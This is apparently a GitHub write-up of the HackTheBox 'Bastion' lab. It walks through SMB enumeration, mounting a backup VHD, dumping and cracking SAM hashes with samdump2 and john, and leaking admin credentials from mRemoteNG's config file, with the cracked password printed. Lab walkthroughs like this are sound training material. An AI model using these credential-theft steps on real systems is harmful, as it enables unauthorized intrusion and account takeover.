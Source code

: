 # bastion.htb
### Write-up for the bastion machine from hackthebox

<img width="292" alt="Screen Shot 2019-07-29 at 1 49 06 PM" src="https://user-images.githubusercontent.com/46615118/62074159-bd2f0000-b207-11e9-9a21-0a3f64b2cb37.png">

Bastion was an awesome learning opportunity. Mounting an SMB share and enumerating its contents reveals a virtual hard disk that you need to either figure out how to mount or open in a VM. I chose to mount via kali. Once mounted, you can get user creds using samdump2. You are then able to ssh into the box and begin enumerating for privesc. In your enumeration, you'll find a application that insecurely stores passwords. If you didn't spin up a VM earlier, you'll have to do it now in order to follow the steps for a password leak that was posted online. This will get you admin creds and enable you to root the box.

### Scan and Basic Recon

I began with a safe script and version scan with nmap

```
nmap -sV -sC -oN tcp.nmap 10.10.10.134

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-03 15:21 CDT
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T22:22:17+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-03 15:22:16
|_  start_date: 2019-05-03 14:40:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Neat! No web servers so far, and anonymous access to SMB enabled. I ran `smbmap -u anonymous -H 10.10.10.134` and got the following output.

```
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445	Name: 10.10.10.134                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	Backups                                           	READ, WRITE
	[!] Unable to remove test directory at \\10.10.10.134\Backups\CMmGdHrWob, plreae remove manually
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

Taking a peek into the `Backups` share with `smbclient` shows many things to investigate. I could file transfer to my local machine, but that seems a bit excessive, especially with some files in the share that are larger than 5GB. Let's try mounting the share. I first made a mount point in `/mnt`.

`mkdir /mnt/smb`

and then ran

`mount.cifs //10.10.10.134/Backups /mnt/smb`

Success! Let's rummage through here and see what we can find. That 5GB file I mentioned earlier is a virtual hard drive. I'd like to see what's on it. I could open it in a VM, but hey we've been mounting successfully so far and ~my computer is crap and likely wont't be able to handle the load of a VM~ I'm feeling lucky.

After much research, I saw that I could use `guestmount` from [libguestfs-tools](http://libguestfs.org/guestmount.1.html). After installing `libguestfs-tools` I ran

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/`

The drive name following the `-a` is what will be mounted. `-i` inspects the disk looking for an operating system and mounts the filesystem as it would be mounted on the real virtual machine. `--ro` mounts the drive in read only mode. It gave me the below output.

![Screenshot from 2019-07-25 22-23-45](https://user-images.githubusercontent.com/46615118/61970965-780a9400-afa3-11e9-825d-fa6189a01135.jpg)

### Gaining Access

On Windows, the Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. SAM passwords are stored as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM`.

I used `samdump2` to extract the hashes from the SAM db.

![Screenshot from 2019-07-25 22-37-43](https://user-images.githubusercontent.com/46615118/61974849-2d8e1500-afad-11e9-908f-daf4ea2f346b.jpg)

I then ran john against the hashes, using rockyou.txt as the wordlist

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

and this gave me creds for the user `L4mpje`:

```
john --show --format=NT ~/Desktop/hashes.txt 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Looking back at our nmap output we see that ssh is available. I try `ssh L4mpje@10.10.10.134` and enter the password, and we're in and can get `user.txt`!

![Screenshot from 2019-07-25 22-46-24 (1)](https://user-images.githubusercontent.com/46615118/61975322-6e3a5e00-afae-11e9-9e77-e4cff510e912.jpg)

### Privesc and Pwn

Next I need to enumerate to find a path to privesc. A reasonable start would be to [look at the programs that the user installed](https://www.howtogeek.com/165293/how-to-get-a-list-of-software-installed-on-your-pc-with-a-single-command/) on the machine. I ran the following powershell to find installed software on the machine.

```Powershell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```
This returns the following:

![Screenshot from 2019-07-27 13-59-31](https://user-images.githubusercontent.com/46615118/61999282-1a4d7900-b083-11e9-9160-e9cabda87dbb.jpg)

We'll focus first on mRemoteNG. Searchsploit has nothing, but google searching returns [this article](http://hackersvanguard.com/mremoteng-insecure-password-storage/). In reading the article, we see that the author has figured out a way to dump passwords stored in the app by editing the connections configuration file, which is by default named `confCons.xml`. 

So, it looks like I'll have to spin up a VM and install the app to follow the author's lead. Rats. Let's grab L4mpje's `confCons.xml` before we mess with the VM. I'll use good ol' `scp`.

![Screenshot from 2019-07-27 14-50-03](https://user-images.githubusercontent.com/46615118/61999280-16b9f200-b083-11e9-883b-340a1c946598.jpg)

I installed a VM (windows 10, 64-bit, build WinDev1903Eval worked for me) and installed mRemoteNG. I replaced the stock config file with L4mpje's, and ran the program. It took a while to figure out that I only needed to expose the Admin password and not rewrite the `Protected` string mentioned at the beginning of the article. We already have the access we need. I created a new external tool as mentioned in the article. I followed the next steps and was able to leak the Admin password.

![Screenshot from 2019-05-23 15-45-18](https://user-images.githubusercontent.com/46615118/61974304-d5a2de80-afab-11e9-81f8-54f9a3bc92e4.jpg)

I ssh'd in with the admin creds and entered the password. I then navigated to the desktop and pillaged root.txt. 

![Screenshot from 2019-07-27 14-52-27](https://user-images.githubusercontent.com/46615118/61999279-14f02e80-b083-11e9-8bce-175663cad0ba.jpg)

~fin!

### Lessons Learned
- I did this box a while back and my note taking was poor, thus:

   - I don't remember how I figured out that the version of mRemoteNG on the box was vulnerable to the attack
   - I don't remember how I figured out the SAM file was accessable.
   - More than likely I read the htb forums for the answers to the above.

- I need a better methodology for taking notes.

![Screen Shot 2019-07-29 at 1 35 49 PM (1)](https://user-images.githubusercontent.com/46615118/62073401-3f1e2980-b206-11e9-94ff-f7290f302e32.jpg)

![Screen Shot 2019-07-29 at 1 35 49 PM](https://user-images.githubusercontent.com/46615118/62073403-3fb6c000-b206-11e9-9fba-3d64db26cc0e.jpg)
